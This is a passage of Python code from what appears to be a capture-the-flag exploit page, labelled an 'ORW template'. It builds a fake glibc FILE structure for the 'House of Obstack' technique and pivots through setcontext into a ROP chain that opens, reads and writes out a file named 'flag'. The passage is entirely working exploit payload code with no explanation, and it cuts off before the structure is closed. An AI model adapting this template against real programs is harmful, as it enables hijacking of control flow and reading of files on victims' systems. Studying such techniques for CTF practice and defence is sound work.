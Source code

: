 **ORW模板**

```python
def house_of_obstack(fake_IO_file_addr):
    flag_addr = fake_IO_file_addr + 0x300 
    data = fake_IO_file_addr + 0x380
    fake_IO_file = flat({
            0:{
                0x8: 1,     # next_free
                0x10: 0,    # chunk_limit
                0x18: 1,    # _IO_write_ptr 
                0x20: 0,    # _IO_write_end
                0x28: magic_gadget, # gadget
                0x38: fake_IO_file_addr + 0x100,        # rdi
                0x40: 1,
                0x58: 0,    # chain
                0x78: _IO_stdfile_2_lock,   # _IO_stdfile_1_lock
                0x90: _IO_wide_data,        # _IO_wide_data_2
                0xc8: _IO_obstack_jumps + 0x20,
                0xd0: fake_IO_file_addr     # obstack(B)
            }, 
            0xf0:{
                0: [
                    0,
                    fake_IO_file_addr + 0x100,
                    0,0,
                    setcontext + 61
                ],
                0xa0: fake_IO_file_addr + 0x200,
                0xa8: ret
            },
            0x1f0:
                [
                    pop_rax_ret,  # sys_open('flag', 0)
                    2,
                    pop_rdi_ret,
                    flag_addr,
                    pop_rsi_ret,
                    0,
                    syscall_ret,

                    pop_rax_ret,  # sys_read(flag_fd, heap, 0x100)
                    0,
                    pop_rdi_ret,
                    3,
                    pop_rsi_ret,
                    data,
                    pop_rdx_rbx_ret,
                    0x40,
                    0,
                    syscall_ret,

                    pop_rax_ret,  # sys_write(1, heap, 0x100)
                    1,
                    pop_rdi_ret,
                    1,
                    pop_rsi_ret,
                    data,
                    pop_rdx_rbx_ret,
                    0x40,
                    0,
                    syscall_ret
                ],
            0x2f0: 'flag\x00\x00\x00\x00',
```